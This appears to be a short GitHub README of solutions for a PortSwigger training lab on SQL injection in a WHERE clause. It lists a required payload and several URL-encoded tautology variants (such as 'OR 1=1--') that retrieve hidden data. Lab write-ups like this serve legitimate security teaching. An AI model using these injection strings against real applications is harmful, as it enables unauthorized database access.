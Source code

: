 # SQL-injection
# Port Swigger SQL injection Lab Solutions <tag>

**Retrieving hidden data**

[1.Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)


1. Solutions
   1. `'+OR+1=1--` -> Required
   *The server can also respond for the following
   1. `'OR+'1'='1--`
   1. `'OR+'1'='1'--`
   1. `'OR+'1'--`
   1. `'OR+true--`
   1. `'OR+'a'='a'--`
   1. `/OR+1=1--`
   
  

